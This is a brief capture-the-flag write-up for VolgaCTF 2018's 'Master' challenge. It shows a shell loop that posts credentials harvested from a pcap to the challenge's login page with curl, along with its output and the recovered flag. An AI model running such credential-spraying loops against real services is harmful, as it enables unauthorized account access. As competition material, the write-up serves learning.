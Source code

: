 # Master

100 points

solved by committee in Math329

## solved

eventually got it by doing this:

```
mtoups@x1ubuntu:~/ctf/volga/master$ while read l ; do u=`echo $l | cut -d' ' -f 1`; p=`echo $l | cut -d' ' -f 2`; echo -n $u && echo -n  "  " && curl -X POST -d uname=$u -d psw=$p http://master.quals.2018.volgactf.ru:3333/ 2>/dev/null | grep -v "No flag for you!" ; echo ;done < try-admin.txt 
admin  Invalid user

admin  Invalid user

admin  Invalid user

admin  VolgaCTF{PLA1N_TEXT_REPLICATION_IS_@_B@D_THING}

admin  Invalid user

```

## scripts

* extract.py reads users/passwords from pcap file (scapy library)
* do-curl-logins.sh reads user password (space delimited) from text file, calls curl to try login
